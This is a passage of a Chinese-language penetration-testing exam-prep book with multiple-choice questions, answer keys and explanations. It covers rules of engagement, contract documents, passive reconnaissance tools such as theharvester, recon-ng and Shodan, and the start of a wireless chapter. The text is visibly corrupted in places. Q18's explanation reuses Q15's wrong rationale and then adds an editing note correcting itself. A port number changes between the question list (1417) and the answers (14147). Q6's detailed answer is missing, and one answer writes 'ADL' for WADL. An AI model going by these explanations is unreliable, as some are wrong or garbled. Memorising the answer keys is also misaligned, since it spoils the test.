**B** 和 **D** 是错误的。**B** 是错误的，因为可用性是一个目标而不是标准。**D** 是错误的，因为可接受使用是一项政策而不是技术标准。密码复杂度和数据隔离的基准标准是由 `PCI DSS`、`HIPAA` 和 `FISMA` 合规框架建立的。除了这些之外，合规框架还建立了密钥管理标准。范围蔓延。

### 32 . 在 `ROE` 中，识别、量化和处理与系统相关风险的过程是什么？

- **A.** 威胁建模
- **B.** 风险评估
- **C.** 目标选择
- **D.** 渗透测试

**A** 是正确的。威胁建模是识别、量化和处理安全风险的过程。

### 33 . 在 `ROE` 中，哪个组件告诉渗透测试人员在执行过程中出现问题时联系谁？

- **A.** 影响分析
- **B.** 通信升级路径
- **C.** 基于目标的评估
- **D.** 黑盒评估

**B** 是正确的。通信升级路径是 `ROE` 的一部分，包含一份出现问题时需要联系的人员列表。

### 34 . 在 `ROE` 中，哪个组件告诉渗透测试人员哪些主机、网络和子网在范围内？

- **A.** 任务范围
- **B.** 通信升级路径
- **C.** Swagger 文档
- **D.** 工作说明书 (`SOW`)

**A** 是正确的。任务范围定义了哪些主机、网络和子网在测试范围之内或范围之外。

### 35 . 哪种类型的评估衡量了组织对特定环境定义的一系列安全标准的执行情况和遵循情况？

- **A.** 白盒
- **B.** 基于目标的
- **C.** 红队
- **D.** 基于合规的

**D.** 基于合规的评估衡量了组织对特定环境定义的一系列安全标准（即监管合规框架）的执行情况和遵循情况。


 `A`、`B` 和 `C` 是错误的。`A` 是错误的，因为白盒评估是指渗透测试人员在开始任务之前对目标环境有广泛的了解。`B` 是错误的，因为基于目标的评估是指测试人员的目标不仅仅是测试预定义的主机、网络或设备范围，而是为了实现具体的成果，例如获取公司 SAN 的根访问权限。`C` 是错误的，因为红队评估是指渗透测试人员尝试对目标环境进行真实世界的攻击模拟。这通常通过使用已知的高级持续性威胁（APT）所采用的战术、技术和程序（TTPs）来实现。

### 36 .**哪种支持资源详细介绍了组织的网络或软件设计及基础设施，并定义了这些元素之间的关系？

- **A.** 架构图
- **B.** WADL
- **C.** XSD
- **D.** 任务范围

 `A`。架构图详细介绍了组织的网络或软件设计及基础设施，并定义了其中元素之间的关系。

 `B`、`C` 和 `D` 是错误的。`B` 是错误的，因为 `WADL`（Web 应用描述语言）是基于 HTTP 的网络服务的机器可读 XML 描述。`C` 是错误的，因为 `XSD`（可扩展方案定义）用于正式描述构成 XML 文档的元素。`D` 是错误的，因为任务范围通常作为渗透测试 `ROE`（参与规则）的一部分详细列出，明确声明哪些主机、网络和子网在范围之内或范围之外。

### 37 .**哪份文档概述了渗透测试人员为某组织执行的特定项目工作？

- **A.** 保密协议 (NDA)
- **B.** 工作说明书 (SOW)
- **C.** 参与规则 (ROE)
- **D.** 通信升级路径

 `B`。工作说明书是一种通常（但并非总是）作为 `MSA`（主服务协议）条款附件的文档，概述了服务供应商为某组织执行的特定项目工作。它通常涉及诸等细节，包括但不限于项目目的、工作范围和执行周期。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为保密协议是一种保护企业专有信息和知识产权的机密协议。`C` 是错误的，因为参与规则是在执行渗透测试期间必须遵守的具体指南和限制；它们明确声明了哪些内容是授权测试的，哪些*未被*授权的。`D` 是错误的，因为通信升级路径是 `ROE` 的一部分，包含在渗透测试期间遇到问题时应联系的人员列表，并详细说明了与其与其他们的方法。

### 38 .**需求管理中的这一关键方面是评估采取某项行动的潜在优劣的正式方法。**

- **A.** 高层管理
- **B.** 影响分析
- **C.** 计划安排
- **D.** 技术限制识别

 `B`。影响分析是评估采取给定行动的潜在优劣的正式方法。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为高层管理通常深度参与影响分析，并且经常是某项行动的最终决策者，但该过程不仅限于公司或业务内部的某个子组织。`C` 和 `D` 是错误的，因为计划安排和技术限制识别是影响分析的关键组成部分，分别决定了何时进行渗透测试以及哪些主机、网络或子网被考虑在范围之内。

### 39 .**关于未来协议和条件的通用条款（如付款计划、知识产权所有权和争议解决）通常在渗透测试人员与其客户之间的哪份合同文档中规定？

- **A.** 工作说明书 (SOW)
- **B.** 主服务协议 (MSA)
- **C.** 参与规则 (ROE)
- **D.** 保密协议 (NDA)

 `B`。主服务协议（或 `MSA`）是为两个或多个双方之间未来交易和协议提供通用指南的总文件。`MSA` 涵盖的条件包括（但不限于）付款条款、产品保修、知识产权所有权、争议解决、风险分配和赔偿条款。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为工作说明书 (`SOW`）是通常（但并非总是）出现在 `MSA` 中的一项条款，概述了服务供应商为某组织执行的特定项目工作。它通常涉及诸等细节，包括但不限于项目目的、工作范围和执行周期。`C` 是错误的，因为参与规则 (`ROE`）是一份指导渗透测试人员在评估期间遵循的指南和限制的文档，最关键的是详细说明了哪些内容是和不是授权测试的。`ROE` 可以单独交付，也可以作为 `SOW` 的组成。`D` 是错误的，因为保密协议 (`NDA`）是一种保护企业专有信息和知识产权的机密协议。

### 40 .**哪种渗透测试方法可能需要身份凭证或其他对环境/网络的详细信息？

- **A.** 黑盒
- **B.** 红盒
- **C.** 红队
- **D.** 白盒

 `D`。作为白盒渗透测试的一部分，可能需要授权的凭证或其他详细信息

 `A`、`B` 和 `C` 是错误的。`A` 是错误的，因为黑盒测试要求测试人员获取有关目标环境的信息，因为他们开始时几乎没有任何信息。`B` 是错误的，因为红盒是一个无意义的术语，源自定义方法的黑/灰/白盒术语；小心这类刻意误导的答案。`C` 是错误的，因为红队评估是指渗透测试人员尝试对目标环境进行真实世界的攻击。此外，请注意问题针对的是*方法*，而不是正在进行的评估*类型*。

*请参考以下场景回答接五个问题：*

你受聘为美国政府办公室进行渗透测试。客户要求进行更长期的评估，旨在模拟高水平对手的行动。合同的部分内容要求参与任务的所有渗透测试人员必须是拥有活跃安全审查的美国公民。此外，合同中还包含了一系列详细客户网络设计的插图作为支持文档。

### 41 .**在以下选项中，客户最可能请求的是哪种类型的评估？

- **A.** 红队
- **B.** 基于目标的
- **C.** 基于合规性的
- **D.** 基于目的的


**A** 。 红队行动的特点是比典型行动周期更长，并且旨在模拟高技能攻击者（通常是 APT）的行为。

**B**, , **C**, 和 **D** 是错误的。**B** 和 **D** 错误的原因是，“基于目标的的（goals-based）”和“基于客观的（objective-based）”是更具战略性的测试的同义词，这种测试侧重于渗透测试人员努力实现特定的预期结果，例如获取组织域控制器的系统级访问权限。**C** 是错误的，因为基于合规性的评估测试的是组织在给定的监管框架定义的环境中遵循并实施一套安全标准的能力。

### 42 . 下列合同文件中，哪一个最可能详细说明“测试人员必须都是美国公民并持有有效安全检许可证”的要求？

**A.** 保密协议
**B.** 主服务协议
**C.** 工作说明书
**D.** 参与规则

**C** 。 诸如履行期限、交付物进度以及要求所有测试人员均为美国公民并持有有效安全检许可证等特殊要求，将在工作说明书（`SOW`）中详细说明。

**A**, , **B**, 和 **D** 是错误的。**A** 是错误的，因为保密协议（`NDA`）是一种保密协议，通过确保其专有信息和知识产权的安全来保护业务的竞争优势。**B** 是错误的，因为主服务协议（`MSA`）是两个或多个双方之间的总体合同，规定了未来交易和协议的细粒度。这通常涉及（但不限于）付款条款和进度安排、知识产权所有权以及风险分配等条件。**D** 是错误的，因为参与规则（`ROE`）是在执行渗透测试期间必须遵守的具体指南和限制条件。

### 43 . 根据提供的描述，客户提供了哪种类型的支持文档？

**A.** WADL 文件
**B.** SDK 文档
**C.** 架构图
**D.** SOAP 项目文件

**C** 。 “详细说明客户端网络设计的插图”是最描述架构图的短语。

**A**, , **B**, 和 **D** 是错误的。**A** 是错误的，因为 `ADL`（应用程序描述语言）是基于 HTTP 的网络服务的机器可读 XML 描述。**B** 是错误的，因为 `SDK`（软件开发包）文档用于详细阐述软件应用程序开发中框架。**D** 是错误的，因为 `SOAP`（简单对象访问协议）项目文件是一种支持资源，详细说明了特定 Web 服务如何发送和接收消息。

### 44 . 提供的支持文档将作为哪个合同文件的一部分附件？

**A.** 参与规则
**B.** 工作说明书
**C.** 主服务协议
**D.** 保密协议

**A** 。 架构图和任何其他支持文档将作为渗透测试参与规则的附件。

**B**, , **C**, 和 **D** 是错误的。**B** 是错误的，虽然参与规则可以作为工作说明书（`SOW`）的一部分提供，但显然支持文档是直接附在 `ROE` 中的。**C** 是错误的，因为主服务协议（`MSA`）是两个或多个双方之间的合同，规定了未来交易和协议的细粒度。这通常涉及（但不限于）付款条款和进度安排、知识产权所有权以及风险分配等条件。**D** 是错误的，因为保密协议（`NDA`）是一种保密协议，通过确保其专有信息和知识产权的安全来保护业务的竞争优势。

### 45 . 在行动期间，客户的“蓝队”（防御方）识别了你的扫描，并设置了防火墙规则以拦截从你的 IP 地址到你环境的所有流量。在以下选项中，哪是继续渗透测试的最合适行动？

**A.** 记录防御者抓住了你，然后停止所有测试。没有必要进行任何进一步测试。
**B.** 在客户拥有的范围外系统上获得立脚点，以便你可以在不被察觉的情况下继续测试。
**C.** 创建许多带有名为“隔离裁员”恶意文件的 USB 闪盘，这些闪盘将向你的攻击系统返回 shell，并将它们丢在客户的主停车场。
**D.** 记录下你的流量似乎已被识别为恶意流量的事实，通知客户侧联系人你有理由相信你的流量已被识别并拦截，并就评估中该阶段的优选行动方案寻求建议。

**D** 。 渗透测试参与规则（`ROE`）中列出的联系人（`POC`）的作用是在客户组织与渗透测试人员之间联络，处理行动期间可能发生的任何问题。由于拦截流量会影响测试人员继续评估的能力，这是一个必须进行联系才能继续的情况；例如，`POC` 可能会联系 IT 部门并要求他们为了继续测试而将你的 IP 地址加入白名单，或者他们可能会建议你更改 IP 地址以进一步测试他们的防御者。作为额外说明，流量被识别并拦截的这一事实应作为最终报告中的一项正面发现记录下来。


在完成对接前会议、定义范围范围和交互规则以及签署合同后，渗透测试人员就可以开始评估的下一阶段：信息收集。通常认为信息收集分为两种类型：被动和主动。被动信息收集是指通过实际上对相关目标而言是不可见的方式收集任何情报；主动信息收集将在第 3 章和第 4 章中讨论。

从最基本的定义来说，被动信息收集是从公开的源收集信息；这可能意味着在任何特定的搜索引擎中进行查询、从公共 DNS 服务器获取信息，或使用`Shodan`或`theharvester`等工具搜索目标组织的网络。更精确地定义，被动信息收集是任何对渗透测试可能有用的情报收集，且不会直接连接到渗透测试目标或向目标泄露自己的身份。虽然通过被动信息收集找到通往可利用进程或服务的快速路径并不十分常见，但收集的数据对于整个渗透测试仍然具有重要性；组织往往并不知道自己的数字足迹有多大，并且会对你在他们毫无察觉的情况下能找到的信息感到惊讶。本章的问题重点关注基础信息收集原则以及用于执行这些工作的常用工具。

***

### Q QUESTIONS

**1 .** Censys 由密歇根大学的一个研究小组创建，该小组还开发了哪种大规模互联网扫描工具？

**A.** `Nmap`
**B.** `Zmap`
**C.** `Nikto`
**D.** `Dirbuster`

**2 .** WHOIS 查询返回的域名注册信息*不*包含以下哪一项？

**A.** 域名管理员邮箱
**B.** 域名管理员传真号码
**C.** 域名管理员组织
**D.** 域名管理员 GPS 坐标

**3 .** 开源情报（`OSINT`）收集框架用于有效管理所收集的信息源。下列哪项最准确地描述了开源情报？

**A.** 公司内部存储共享上标记为“机密”且需要身份验证的公司文档
**B.** 公司内网内未记录的网页上的新闻稿草案
**C.** 通过公开源获取的任何用于辅助或驱动决策过程的信息或数据
**D.** 通过对免费和开源软件（`FOSS`）进行源码分析获得的信息

**4 .** 在接下来的 `recon-ng` 输出中，调用了哪个命令用于在带有特定选项和值时配置模块参数？



**A.** `use`
**B.** `set`
**C.** `load`
**D.** `show`

**5 .** 哪种收集开源情报的方法包括收集已发布的文档（如 Microsoft Office 或 PDF 文件），并解析其中隐藏的信息以显示用户名、电子邮件地址或其他敏感数据？

**A.** 元数据分析
**B.** 文件爬取（File scraping）
**C.** 文件挖掘（File mining）
**D.** 文件发掘（File excavation）

**6 .** `FOCA` 在搜索文档时，*不*使用以下哪个搜索引擎？

**A.** Bing
**B.** Google
**C.** Yahoo
**D.** DuckDuckGo

**7 .** 通过分析大型数据集以揭示模式或隐藏的异常的过程是什么？

**A.** 被动信息收集
**B.** 踏迹探测（Footprinting）
**C.** 主动信息收集
**D.** 数据挖掘

**8 .** 在接下来的命令中，哪个标志负责将输出同时保存到 XML 和 HTML 文件？

```
theharvester -d example.com -b google -f foo -v -n
```

**A.** `-v`
**B.** `-f`
**C.** `-n`
**D.** `-b`

**9 .** 下列哪项是可能安装在 `Maltego` 中以扩展其能力的外部资源或 API？

**A.** Shift
**B.** Transform
**C.** Modifier
**D.** Tweak

**10 .** 哪一个静态网页专注于信息收集，提供在侦察过程中可以使用网页链接和资源，并能极大帮助渗透测试人员进行数据挖掘过程？

**A.** `Maltego`
**B.** `OSINT Framework`
**C.** `Shodan`
**D.** `Censys`

**11 .** 下列哪项是基于 Python 的开源工具，它严格从标准用户命令行运行，并包含用于情报收集的被动和主动选项（通过许多命令行开关可以启用或禁用功能，例如将查询限制在特定搜索引擎或在 `Shodan` 中对识别出的 IP 地址和主机名进行搜索）

**A.** `recon-ng`
**B.** `Shodan`
**C.** `theharvester`
**D.** `Maltego`

**12 .** 在侦察期间，哪种技术将用户定义的主机名映射到关联的 IP 地址？

**A.** DNS 区域传输
**B.** 反向 DNS 查询
**C.** 调查
**D.** 正向 DNS 查询

**13 .** 在为渗透测试进行组织踏迹探测时，你发现它通过端口 1417 使用 FTP 进行数据传输。你如何完善 `Shodan` 查询以仅显示该端口的 FTP 服务器？

**A.** `FTP port 1417`
**B.** `FTP:1417`
**C.** `FTP port:1417`
**D.** `FTP;port 1417`

**14 .** 哪种 GNU 许可工具通过从 Microsoft 文档中爬取元数据来收集信息，这些用户名、电子邮件地址和真实？

**A.** `Maltego`
**B.** `FOCA`
**C.** `recon-ng`
**D.** `theharvester`

**15 .** 下列哪个数据源*不是* `theharvester` 的有效选项？

**A.** Google
**B.** LinkedIn
**C.** Facebook
**D.** Twitter

**16 .** 哪个 `recon-ng` 命令可以识别用于情报收集的模块？

**A.** `show workspaces`
**B.** `show modules`
**C.** `use modules`
**D.** `set modules`

**17 .** 在渗透测试中，通常会向渗透测试人员提供大量关于攻击目标系统和目标的信息。以下哪些是由目标组织提供的？（选择两个）

**A.** IP 地址
**B.** 活跃用户名
**C.** 域名名称
**D.** Exchange 和 Active Directory 服务器的管理员密码

**18 .** `Shodan` 中的哪个功能是文档集合，对于想要将 `Shodan` 搜索集成到已开发或正在开发的工具或应用程序中的开发者非常有用？

**A.** 报告
**B.** 开发者集成
**C.** `REST API`
**D.** 探索

**19 .** 在不直接接触目标或其资产的情况下，评估系统、软件、网络或人员初步知识的过程是什么？

**A.** 侦察（Reconnaissance）
**B.** 被动信息收集
**C.** 网页搜索
**D.** 主动信息收集


# 20 . 当作为 `theharvester` 搜索的一部分使用时，`-n` 标志的作用是什么？

**A.** 将对所提供的域名进行 DNS 暴力爆破解搜索。

**B.** 将识别出的主机与 Shodan 数据库进行交叉比对。

**C.** 简单地声明要进行搜索的域名或公司名称。

**D.** 将对所有发现的范围运行反向 DNS 查询。

### 快速答案对照

- 1 . B
- 2 . D
- 3 . C
- 4 . B
- 5 . A
- 6 . C
- 7 . D
- 8 . B
- 9 . B
- 10 . B
- 11 . C
- 12 . D
- 13 . C
- 14 . B
- 15 . C
- 16 . B
- 17 . A, C
- 18 . C
- 19 . B
- 20 . D

### 深度解析答案 A

### 1 . Censys 是由密歇根大学的一个研究小组创建的，该小组还开发了以下哪种大规模互联网扫描工具？

**A.** Nmap
**B.** Zmap
**C.** Nikto
**D.** Dirbuster

**B.** Censys 的开发者还负责开发了 Zmap，这是一种大规模互联网端口扫描器。**A**、**C** 和 **D** 都是错误的。Nmap 最初由 Gordon Lyon 编写，现在可以在其仓库 `https://github.com/nmap/nmap` 找到，公共用户可以在那里提交代码并对其进一步开发做出贡献。Nikto 由 Chris Sullo 和 David Lodge 开发；更多信息可以在其网站 `https://cirt.net/nikto` 找到，工具本身可以在其仓库 `https://github.com/sullo/nikto` 找到。Dirbuster 最初作为 OWASP Dirbuster 项目的一部分开发，该项目现在已停止。幸运的是，Dirbuster 的功能已被 OWASP ZAP (Zed Attack Proxy) 团队吸收，他们在功能上将 Dirbuster 分支为 ZAP 项目的一个扩展。由于这些工具都是由负责 Censys 的不同团队开发的，因此答案是错误的。

### 2 . WHOIS 返回的域名注册信息不包含以下哪项？

**A.** 电子邮件
**B.** 传真
**C.** 组织
**D.** GPS 坐标

**D.** 虽然 WHOIS 域名注册信息可以很详细，但关于地理位置所能找到最多的只是物理地址。WHOIS 查询中找不到 GPS 坐标，因此这是正确答案。此外，请注意，这些信息最终可能都受到 WHOIS 保护服务的保护；由于许多原因，网络管理员可能无法在互联网上广播他们的姓名、电子邮件和家庭地址。为了考虑到这一点，域名注册商通常会在域名的 WHOIS 信息中使用他们自己的信息，并提供一个简单的电子邮件地址，以便在域名被滥用或误用时进行联系。这使得如果带有私有化 WHOIS 数据的网站提供恶意软件、侵犯版权或其他在法律或道德上有关闭网站或要求其更改的情况，就可以采取行动。**A**、**B** 和 **C** 是错误的。电子邮件地址、传真号码和组织名称都通常出现在 WHOIS 条目中。

### 3 . 以下哪项描述了开源情报 (OSINT)？

**A.** 需要身份验证的内部存储的“机密”文档
**B.** 公司内网中未记录的网页稿
**C.** 通过公开来源获取的用于辅助决策任何信息或数据
**D.** 通过开源软件 (FOSS) 分析分析的信息

**C.** 开源情报是指通过公开来源获取的用于辅助决策任何信息或数据。**A**、**B** 和 **D** 是错误的。**A** 和 **B** 是错误的，因为需要身份验证的内部存储的“机密”文档和公司内网后的网站显然是为了与需要这些信息的内部人员共享。因此，它们不是通过开源方法发现的信息示例。**D** 是错误的，因为在这种情况下，“开源”一词的使用是一个干扰项，指的是软件的相关性而非信息收集。在考试期间要警惕此类误导性答案。

### 4 . 在下面的 recon-ng 输出中，调用特定选项和值时使用的什么命令用于配置模块参数？

**A.** `use`
**B.** `set`
**C.** `load`
**D.** `show`

**B.** 在 Metasploit 和 recon-ng 中，`set` 命令用于配置模块选项。**A**、**C** 和 **D** 都是错误的。`use` 和 `load` 选项的功能相同：它们加载给定的模块以供 recon-ng 使用，但并不设置模块选项。`show` 命令用于显示有关框架的各种信息。

### 5 . 哪种收集开源情报的方法包括收集已发布的文档（如 Microsoft Office 或 PDF 文件），并解析其中隐藏的信息以揭示用户名、电子邮件或其他敏感数据？

**A.** 元数据分析
**B.** 文件抓取 (File scraping)
**C.** 文件挖掘 (File mining)
**D.** 文件挖掘 (File excavation)

**A.** 元数据分析是通过解析已发布文档中隐藏的信息以揭示用户名、电子邮件或其他敏感数据来收集开源情报的术语。**B**、**C** 和 **D** 是错误的。文件抓取、文件挖掘和文件掘掘都是没有意义的短语，听起来像信息安全术语，但在该语境下并没有特定含义。在考试期间要警惕此类风格的答案。


### 7. 分析大型数据集以揭示模式或隐藏的异常的过程是什么？

**A.** 被动信息收集
**B.** 站点足迹探测 (Footprinting)
**C.** 主动信息收集
**D.** 数据挖掘

**D**. 数据挖掘是通过分析大型数据集来揭示模式或隐藏的异常的过程。

**A**、**B** 和 **C** 是错误的。**A** 和 **C** 错误的原因是，被动和主动信息收集是情报收集的方法，而不是分析方法。**B** 是错误的，因为站点足迹探测是在渗透测试期间对计算机和信息系统进行侦察的过程，目的是寻找能够实现评估目标的最有效攻击方法。

### 8. 在以下命令中，哪个标记（flag）负责将输出同时保存到 XML 和 HTML 文件？

```
theharvester -d example.com -b google -f foo -v -n
```

**A.** `-v`
**B.** `-f`
**C.** `-n`
**D.** `-b`

**B**. `theharvester` 中的 `-f` 标记将输出导出到 HTML 和 XML 文档中（在这种情况下，为 `foo.xml` 和 `foo.html`）。

**A**、**C** 和 **D** 是错误的。`-v`、`-n` 和 `-b` 标记分别通过 DNS 解析验证主机名、对发现使用的 IP 范围执行反向 DNS 查询，以及允许用户定义数据源（如 Google、Bing 或 LinkedIn）。

### 9. 下列哪项是可能安装在 Maltego 中扩展其能力的外部资源或 API？

**A.** Shift
**B.** Transform (转换)
**C.** Modifier (修改器)
**D.** Tweak (调整)

**B**. 可以安装在 Maltego 中以扩展其能力的外部资源或 API 被称为 transform。

**A**、**C** 和 **D** 是错误的。虽然在定义上相关，但“shift”、“modifier”和“tweak”这些术语与 Maltego 无关。

### 10. 哪个静态网页专注于信息收集，提供可以在侦察过程中使用的网络链接和资源，并能极大协助渗透测试人员进行数据挖掘过程？

**A.** Maltego
**B.** OSINT Framework
**C.** Shodan
**D.** Censys

**B**. OSINT Framework 是一个专注于信息收集的静态网页，提供了可以在侦察过程中使用的网络链接和资源，并能极大协助渗透测试人员进行数据挖掘过程。

**A**、**C** 和 **D** 是错误的。**A** 是错误的，因为 Maltego 是一种 OSINT 应用，以其在各种数据点之间建立连接的能力而闻名。**C** 和 **D** 是错误的，因为 Shodan 和 Censys 是物联网（IoT）搜索引擎，擅长寻找互联网上的开放服务。同样值得注意的是，作为搜索引擎，Shodan 和 Censys 都不是静态页面。

### 11. 下列哪项是一个基于 Python 的开源工具，它严格从标准命令行运行，并包含情报收集的被动和主动选项（许多命令行开关可以启用或禁用功能，例如将查询限制到特定的搜索引擎或搜索识别出的 IP 地址和主机名）？

**A.** recon-ng
**B.** Shodan
**C.** theharvester
**D.** Maltego

**C**. `theharvester` 工具最符合问题的描述。

**A**、**B** 和 **D** 是错误的。**A** 是错误的，因为虽然 `recon-ng` 用 Python 编写的，但它是一个专为基于 Web 的情报收集设计的框架，通常在自己的 shell 环境中运行（尽管支持 bash 和其他 shell 任务）。**B** 是错误的，因为 Shodan 是一个 Web 应用，通常不从命令行运行，除非使用 Shodan 的 API。**D** 是错误的，因为 Maltego 是一个基于 Java 的应用程序，带有图形用户界面，并以其卓越的数据点连接插图而闻名。注意，虽然 Maltego 的某些功能可以从命令行运行，但其图形界面的优势使其成为许多渗透测试人员的主要访问手段。此外，Maltego 是专有软件。由于问题明确要求一种开源工具，因此该候选选项可以被排除。

### 12. 在被动侦察期间，使用什么技术将用户定义的主机名映射到关联的 IP 地址或地址？

**A.** DNS 区域传输 (Zone transfer)
**B.** 反向 DNS 查询
**C.** 调查 (Investigation)
**D.** 正向 DNS 查询

**D**. 正向 DNS 查询向域名服务器查询域名或主机名，DNS 服务器将提供关联的 IP 地址；此功能是互联网的核心，因为如果没有它，在浏览器中使用 `google.com` 等人类可读的术语将失败。换句话说，如果没有 DNS 服务服务，我们将被迫仅使用机器可读的地址（即 IP 地址）在网络上执行几乎操作。

**A**、**B** 和 **C** 是错误的。**A** 是错误的，因为 DNS 区域传输是一种将 DNS 数据库复制到请求系统的 DNS 事务。如果内部 DNS 服务器允许，DNS 区域传输对渗透测试人员非常有益；了解组织的整个 IP 空间和主机名在渗透测试期间识别潜在目标具有巨大价值。**B** 是错误的，因为反向 DNS 查询接收用户提供的 IP 地址，然后查询 DNS 服务器获取该地址关联的主机或域名。**C** 是错误的，因为“调查”并不是渗透测试词汇中一个明确定义的术语。

### 13. 在为渗透测试对某组织进行足迹探测时，你发现它所依赖的服务通过端口 14147 使用 FTP 进行数据传输。如何优化 Shodan 搜索以仅显示该端口上的 FTP 服务器？

**A.** `FTP port 14147`
**B.** `FTP:14147`
**C.** `FTP port:14147`
**D.** `FTP;port 14147`

**C**. Shodan 的搜索和过滤器必须以 `search_string filter:value` 的格式提供。在示例中，`FTP port:14147` 将搜索开放互联网上的 FTP 连接，并从结果中过滤掉所有不在端口 14147 的连接。

**A**、**B** 和 **D** 是错误的，因为 Shodan 的搜索和过滤器必须以 `search_string filter:value` 的格式提供。

### 14. 哪种为 Windows 操作系统族编写的免费且符合 GNU 许可证工具工具从 Microsoft Office 文档中提取元数据来收集信息，其中可能包含用户名、电子邮件和真实姓名？

**A.** Maltego
**B.** FOCA
**C.** recon-ng
**D.** theharvester


**B** . FOCA 是一款免费的、GNU 许可工具，它通过爬取 Microsoft Office 文档中的元数据来收集信息，这些信息可能包括用户名、电子邮件和真实姓名。注意，虽然 FOCA 可以在 WINE（一种允许 Windows 应用程序在 `*nix` 操作系统上运行的兼容层或接口）运行 Linux 和 Unix 变体，但题目特别提到该工具是*为* Windows 编写的，而不是说*仅*运行在 Windows 上。

**A**、**C** 和 **D** 是错误的。**A** 和 **C** 错误的原因是因为虽然 Maltego 和 `recon-ng` 能够通过使用变换或模块从文件中爬取元数据，但这两个工具都不是专门为 Windows 操作系统族编写的。**D** 是错误的，因为 `theharvester` 仅限于可以直接从网站获取的内容；爬取存储在网站上的文件内容超出了它的能力范围。此外，`theharvester` 与 Maltego 和 `recon-ng` 类似，它们都不是专门为 Windows 操作系统编写的。

### 15 . 下列哪个数据源*不是* `theharvester` 中的有效选项？**

**A.** Google

**B.** LinkedIn

**C.** Facebook

**D.** Twitter

**C** . 尽管 `theharvester` 可以查询许多数据源，但 Facebook 并不是之一，这使得 C 成为正确答案。请仔细注意带有否定术语（如“is not”或“are not”）的问题。

**A**、**B** 和 **D** 是错误的。Google、LinkedIn 和 Twitter 都是 `theharvester` 的有效数据源，因此这些选项对于这道题来说是错误的。

### 16 . 哪个 `recon-ng` 命令可以识别用于情报收集的可用模块？

**A.** `show workspaces`

**B.** `show modules`

**C.** `use modules`

**D.** `set modules`

**B** . 命令 `show modules` 将列出所有可在 `recon-ng` 中使用的可用模块。

**A**、**C** 和 **D** 是错误的。**A** 是错误的，因为 `show workspaces` 命令将输出已添加到 `recon-ng` 数据库的所有工作区的列表。**C** 是错误的，因为 `use modules` 命令将报错，因为没有名为“modules”的模块。**D** 是错误的，因为 `set modules` 将显示 `set` 命令的使用指南，以及一个可以配置的模块选项列表。

### 17 . 在渗透测试中，通常会向渗透测试人员提供大量与攻击系统和目标相关的信息。以下哪些通常由目标组织提供？（选择两个）

**A.** IP 地址

**B.** 活跃用户名

**C.** 域名

**D.** Exchange 和 Active Directory 服务器的管理员密码

**A** 和 **C** . IP 地址和域名通常由目标组织在任务开始前的工作说明书（SOW）中提供；事实上，这对于建立渗透测试范围至少是必要的。通过这些稀疏的信息，可以通过开源情报收集获取并使用更多数据，从而大大提高测试的成功率。

**B** 和 **D** 是错误的。活跃用户名和管理员密码是渗透测试人员在测试过程中应该发现的秘密（如果发现的话）。这里的明显例外是白盒渗透测试，其中有效的身份验证凭据可能是提供给测试人员的初始信息的一部分。

### 18 . Shodan 中的哪个功能是文档集合，对于想要将 Shodan 搜索集成到工具中的开发者有用？

**A.** 报告 (Reports)

**B.** 集成 (Integrations)

**C.** REST API

**D.** 探索 (Explore)

**C** . 尽管 `theharvester` 可以查询许多数据源，但 Facebook 并不是之一，这使得 C 成为正确答案。（等等，重新对齐文本逻辑：`REST API` 是一个文档集合，对于想要将 Shodan 搜索集成到工具中的开发者有用。）

**A**、**B** 和 **D** 是错误的。**A** 是错误的，因为 `Reports` 是数据的摘要。**B** 是错误的，因为 `Integrations` 指第三方连接。**D** 是错误的，因为 `Explore` 是 Shodan 自身的搜索界面。

### 19 . 收集关于系统、软件、网络或人员初步知识的过程是什么？

**A.** 侦察 (Reconnaissance)

**B.** 被动信息收集 (Passive information gathering)

**C.** 网页搜索 (Web searching)

**D.** 主动信息收集 (Active information gathering)

**B** . 被动信息收集是评估目标以收集系统、软件、网络或人员初步知识的过程，而不直接接触目标或资产。

**A**、**C** 和 **D** 是错误的。**A** 是错误的，因为侦察是一个更广泛的术，可以描述被动和主动的信息收集工作。**C** 是错误的，因为网页搜索只是其中一种活动。**D** 是错误的，因为主动信息收集需要直接接触。

### 20 . 作为 `theharvester` 的一部分，`-n` 标志的作用是什么？

**A.** 对提供的域名进行 DNS 破解搜索。

**B.** 将识别出的主机与 Shodan 数据库进行交叉引用。

**C.** 简单声明搜索的域名或公司名称。

**D.** 对所有发现的范围运行反 DNS 查询。

**D** . `theharvester` 中的 `-n` 标志将对所有发现的范围运行反 DNS 查询。

**A**、**B** 和 **C** 是错误的。**A** 是错误的，因为 DNS 破解搜索是 `-c` 标志的结果。**B** 是错误的，因为与 Shodan 数据库的交叉引用是 `-h` 标志的结果。**C** 是错误的，因为声明搜索的域名或公司名称是在 `-d` 标志之后提供的。


在渗透测试期间，网络扫描和枚举是渗透测试人员的核心技能之一。除了简化主机识别外，确认并识别网络中运行的服务的能力也是识别潜在目标服务以及开发通成功网络利用路径的关键工具。对各种服务所用用端口的知识也可以为进一步的网络枚举提供清晰的焦点，例如，DNS 或 LDAP 服务器可能会向任何愿意监听的人广播关键信息。偶尔，对渗透测试人员有利的信息将以从目标网络中的主机接收的形式进行编码。获取这些有用信息需要数据包检查和解码的技能。

除了这些通用的网络扫描考虑因素外，本章还讨论了在评估无线网络时必须考虑的特殊事项。

* * *

### 问题解答

* * *

**1 .** `aircrack-ng` 工具套中的哪个组件用于将无线适配器置于监听模式？

  **A.** `Aireplay-ng`

  **B.** `Airmon-ng`

  **C.** `Airodump-ng`

  **D.** `Airdecap-ng`

**2 .** 哪种主帧（由 IEEE 802.11 无线标准定义）允许站与接入点之间建立并维持网络通信？

  **A.** 解离帧 (Disassociation frame)

  **B.** 管理帧 (Management frame)

